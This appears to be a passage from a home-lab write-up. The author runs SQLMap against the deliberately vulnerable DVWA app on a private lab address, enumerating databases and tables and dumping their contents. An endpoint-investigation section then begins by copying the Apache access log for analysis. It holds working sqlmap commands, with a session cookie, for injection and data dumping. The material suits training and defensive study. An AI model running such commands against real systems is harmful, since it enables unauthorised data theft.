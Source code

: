 I used the command below to see some of the functions and option that SQLMap has:

```
sqlmap --help | head -n 30
```
![Pasted image 20250117101836](https://github.com/user-attachments/assets/ff56483d-008b-4584-ad8e-28f45a6bab89)

Here is another look at the options that it includes for Enumeration:

![Pasted image 20250117102044](https://github.com/user-attachments/assets/5f370973-2d19-4e7c-8ba7-6c42e55f18c8)

To start, I looked at the list the available databases using the `-- dbs` parameter:

```
sudo sqlmap -u  "http://192.168.92.128/dvwa/vulnerabilities/sqli/?id=54545&Submit=Submit#" --cookie="security=low; PHPSESSID=a8865a2cafe274fad89dd8603152787f" --dbs

```

![Pasted image 20250117102701](https://github.com/user-attachments/assets/9cf675f1-b379-4ae6-92da-852e8b8c76d3)

Based on the output above, it already was able to identify that the target might be vulnerable to both SQL injection and CSS attacks. Below is the summary of information it was able to find once it completed: 

![Pasted image 20250117102616](https://github.com/user-attachments/assets/a672848d-ce29-4700-a7fe-fdf93f28bced)

Next, I searched for tables with the `--tables`  parameter:

```
sudo sqlmap -u  "http://192.168.92.128/dvwa/vulnerabilities/sqli/?id=54545&Submit=Submit#" --cookie="security=low; PHPSESSID=a8865a2cafe274fad89dd8603152787f" --tables

```

![Pasted image 20250117102932](https://github.com/user-attachments/assets/a4fc63bc-477f-492d-8203-133f140dc116)

Based on the output, it was able to find many tables. Next, I dumped the data/information using `--dump` parameter:

```
sudo sqlmap -u  "http://192.168.92.128/dvwa/vulnerabilities/sqli/?id=54545&Submit=Submit#" --cookie="security=low; PHPSESSID=a8865a2cafe274fad89dd8603152787f" --dump
```

![Pasted image 20250117103227](https://github.com/user-attachments/assets/a09243fc-c118-4308-a02c-013760c05509)

## Endpoint investigation:

Below is a list to show some examples of characters that can be seen with SQL injection attacks:

![Pasted image 20250115151846](https://github.com/user-attachments/assets/30383e18-1522-40df-bf1e-2ff3526810a4)

To start the investigation, I downloaded the Apache access. log from  the compromised endpoint:

```
scp -oHostKeyAlgorithms=+ssh-rsa  msfadmin@192.168.92.128:/var/log/apache2/access.log . 

```
